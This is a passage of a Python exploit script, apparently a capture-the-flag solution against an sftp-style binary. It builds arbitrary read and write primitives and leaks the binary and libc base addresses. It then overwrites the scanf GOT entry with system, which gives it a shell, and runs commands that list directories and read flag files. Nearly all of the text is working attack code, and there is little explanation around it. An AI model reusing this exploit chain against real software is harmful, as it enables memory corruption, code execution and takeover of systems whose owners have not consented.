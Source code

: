 ```python
			---------------
			1) Set the victim's `char* data` field to be the address we want to READ FROM.
			2) Set the `size` field to be the AMOUNT OF BYTES we want to read from that address.
			3) Read the data from the given address using the fact that we can read data from a `file_entry`!
		
		Return the data read from the address given.
		'''
		_set_victim(address, length)
		return do_get('SOME_FILENAME')

	def do_write(address, data):
		'''
			[!] Arbitrary write primitive.

				Actions:
			-----------------
			1) Set the victim's address to be the address we want to WRITE TO.
			2) Write the data to the given address using the fact that we can write to a `file_entry` that already exists!
		'''
		_set_victim(address, len(data))
		do_put('SOME_FILENAME', data)

	def memleak(addr):
		'''
			- Read 8 bytes from the given address.
		'''
		return do_read(addr, 8)

	
	
	#############################################
	#                                           #
	#           Exploiting the bugs! :)         #
	#                                           #
	#############################################

	log.info("home directory_entry struct @ 0x%x", match.home_addr)
	
	binary_base = u64(do_read(match.home_addr, 8)[:8].ljust(8, '\x00')) - 0x208be0
	libc_base = u64(memleak(binary_base + 0x0205028)[:8].ljust(8,'\x00')) - 0x06f690
	
	system_addr = libc_base + 0x045390
	__isoc99_scanf_got = binary_base + 0x2050A0

	do_write(__isoc99_scanf_got, p64(system_addr))
	r.sendlineafter('sftp> ', 'ls>/dev/null;sh')

	r.sendline('id;pwd;ls -al;cat fl* /home/*/fl*')
	r.interactive()


#################################################
#                                               #
#       Interaction with the Binary             #
#                                               #
#################################################


def do_mkdir(dir):
	r.sendlineafter('sftp> ', 'mkdir ' + dir)

```